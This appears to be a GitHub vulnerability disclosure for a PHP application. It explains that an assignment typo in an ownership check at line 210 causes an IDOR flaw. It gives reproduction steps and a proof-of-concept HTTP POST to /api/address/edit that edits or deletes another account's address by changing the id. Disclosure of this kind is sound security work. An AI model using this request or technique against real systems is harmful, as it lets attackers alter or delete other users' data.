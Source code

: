 Vulnerability Found (IDOR): The crucial line is 210: if ($address_check && $address_check['is_del'] == 0 && $address_check['uid'] = $uid).
There's a single equals sign (=) instead of a double equals sign (==) or triple equals sign (===) in the condition ($address_check['uid'] = $uid). This is a classic programming error that leads to a Horizontal Privilege Escalation / IDOR vulnerability.

Explanation of the bug:

$address_check['uid'] = $uid is an assignment operation, not a comparison.
It assigns the authenticated user's $uid to $address_check['uid'].
The result of an assignment operation is the assigned value, which is $uid. If $uid is a non-zero integer (which it almost always will be for a logged-in user), the condition ($address_check['uid'] = $uid) will always evaluate to true.

Recurrence of vulnerabilities:

Account A address id is 1, account B address id is 2.

When we edit the A account address, change the id to 2, and we can edit/delete the address information of account A.

<img width="1026" height="438" alt="image" src="https://github.com/user-attachments/assets/0211db18-b7ab-4ed9-8f6b-230da468a3b9" />

Account A has an additional value of id 2. Address B corresponding to address id 2. Disappears

Account A:

<img width="603" height="1271" alt="image" src="https://github.com/user-attachments/assets/47bd2c22-ee5c-4887-8452-699cb3e22c34" />

Account B:

<img width="398" height="1191" alt="image" src="https://github.com/user-attachments/assets/05a74b3c-039e-4646-92cf-c6c0abbc7b94" />


# POC
```
POST /api/address/edit HTTP/1.1
Host: 127.0.0.1:81
Authori-zation: XXX
content-type: application/json
Content-Length: 199

{"real_name":"111","phone":"13111111111","detail":"111111","id":"2","address":{"province":"\u5317\u4eac\u5e02","city":"\u5317\u4eac\u5e02","district":"\u4e1c\u57ce\u533a","city_id":2},"is_default":1}

```
